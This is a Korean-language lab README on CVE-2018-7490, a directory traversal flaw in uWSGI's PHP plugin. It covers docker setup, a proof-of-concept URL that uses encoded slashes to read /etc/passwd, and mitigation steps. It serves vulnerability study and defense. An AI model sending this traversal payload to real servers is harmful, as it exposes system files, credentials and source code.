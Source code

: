
# uwsgi PHP 디렉토리 순회 취약점 (CVE-2018-7490)


## 개요

uWSGI는 WSGI/uwsgi/http와 같은 프로토콜을 구현하는 웹 애플리케이션 서버이며, 다양한 언어를 플러그인을 통해 지원합니다.

2.0.17 이전 버전의 uWSGI PHP 플러그인에서는 DOCUMENT_ROOT 감지를 제대로 처리하지 않아, %2f(URL 인코딩된 /)를 이용한 경로 조작을 통해 DOCUMENT_ROOT 외부의 파일을 읽거나 실행할 수 있는 취약점이 존재합니다.

## 환경 세팅

터미널에서 아래 명령어 입력

```
docker compose up -d
```

`http://localhost:8080` 에 접속하면 성공적으로 실행중인 uwsgi-php 서버 정보를 확인할 수 있습니다.

## POC

취약한 uWSGI PHP 서버에 다음 URL을 직접 요청:

 `http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`

요청 결과, 브라우저에는 리눅스 시스템의 /etc/passwd 파일 내용이 그대로 출력됩니다.:


공격자는 /etc/passwd 외에도 서버 내 .env, 설정 파일, 소스코드 등 민감한 파일에 접근할 수 있습니다.
경우에 따라 원격 코드 실행(RCE) 또는 시스템 권한 탈취로도 이어질 수 있습니다.

## 대응방안

uWSGI를 2.0.17 이상 버전으로 업데이트
DOCUMENT_ROOT 하드코딩 또는 접근 경로에 대한 서버 측 필터링 적용